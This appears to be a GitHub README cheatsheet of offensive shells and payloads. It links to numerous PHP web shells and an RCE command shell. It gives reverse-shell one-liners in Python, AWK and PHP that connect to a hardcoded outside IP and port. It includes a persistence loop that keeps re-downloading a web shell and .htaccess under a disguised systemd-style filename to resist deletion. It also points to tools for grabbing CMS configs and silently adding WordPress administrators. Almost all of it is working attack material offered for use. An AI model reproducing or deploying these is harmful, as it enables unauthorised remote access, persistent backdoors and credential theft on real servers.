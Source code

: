 # Cheatsheet Shells & Payloads & Other By [@CallMeRep](https://t.me//CallMeRep)

## Summary
* [BackConnect Bypass](#trick-backconnect-bypass)
* [Tools](#tools)
* [ Example List Vulnerability ]
   * [AWS TAKEOVER S3](https://github.com/t101804/repshare/blob/main/aws_vuln_with_region.txt)
* [ Default Index CMS ]
   * [Index Joomla](https://github.com/t101804/repshare/blob/main/index_joomla.php)
* [ Shell Backdoor Bypass/Non ]
    * [Alfa Shells](https://github.com/t101804/repshare/blob/main/alfa.php)
    * [Evil Twin Shells](https://github.com/t101804/repshare/blob/main/eviltwin.php)
    * [Gecko Shells](https://github.com/t101804/repshare/blob/main/gk.php)
    * [Gecko JPG Shells](https://github.com/t101804/repshare/blob/main/gkjpg.jpg)
    * [Open Source Shells](https://github.com/t101804/repshare/blob/main/ac.php)
    * [Commander RCE Shell Bypass](https://github.com/t101804/repshare/blob/main/commander.php) 
    ```
    commander.php?command=[executeurcommand] then the response you can access in /output_command.txt
    ```
    * [SSI Shell](https://github.com/t101804/repshare/blob/main/ssial.shtml) 
    * [indoXploit Shell](https://github.com/t101804/repshare/blob/main/idx.php) 
    * [marijuana shell](https://github.com/t101804/repshare/blob/main/m4rijuana.php) 
    * [r57 shells](https://github.com/t101804/repshare/blob/main/r.php)
## Trick BackConnect Bypass
## Python 
```
export RHOST="104.248.145.105";export RPORT=1234;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```
## AWK 
```
awk 'BEGIN {s = "/inet/tcp/0/104.248.145.105/1234"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```
## PHP EXEC & PHP SHELL EXEC
[EXEC] 
```
php -r '$sock=fsockopen("104.248.145.105",1234);exec("sh <&3 >&3 2>&3");'
```
[SHELL_EXEC] 
```
php -r '$sock=fsockopen("104.248.145.105",1234);shell_exec("sh <&3 >&3 2>&3");'
```

# Trick Defend Shells
### Anti Delete Command without Root Privilages : 
```
curl https://raw.githubusercontent.com/t101804/repshare/main/.htaccess -o /var/tmp/systemd-private-d2965998338a4e6a84320173dff28bb0-haveged.service-HgExaf2a; while true; do echo $(TZ=Asia/Jakarta date); if [ ! -f ac.php ] || ([ -f ac.php ] && ! grep -q '@CallMeRep' ac.php); then curl -o ac.php https://raw.githubusercontent.com/t101804/repshare/main/ac.php; fi; if [ -r .htaccess ] && [ -w .htaccess ] && ! cmp --silent .htaccess /var/tmp/systemd-private-d2965998338a4e6a84320173dff28bb0-haveged.service-HgExaf2a; then curl https://raw.githubusercontent.com/t101804/repshare/main/.htaccess -o .htaccess; fi; echo $(TZ=Asia/Jakarta date); sleep 2; done
```
#### Script for that if you want see detail script
```
wget https://raw.githubusercontent.com/t101804/repshare/main/priv8_anti_delet.sh
```
## Tools
- [reverse-shell-generator](https://www.revshells.com/)
- [mass-grab-config-joomla&wp-vhost-symlink](https://github.com/t101804/repshare/blob/main/mass_vghost_config_grab.py)
- [linux_privilage_check_that_i_use](https://github.com/sleventyeleven/linuxprivchecker)
```
wget https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py
python linuxprivchecker.py -w -o linuxprivchecker.log
```
- [auto-add-admin-user-to-wordpress](https://github.com/t101804/repshare/blob/main/wp_add_admin.php)
Credit by revshells.com and @CallMeRep
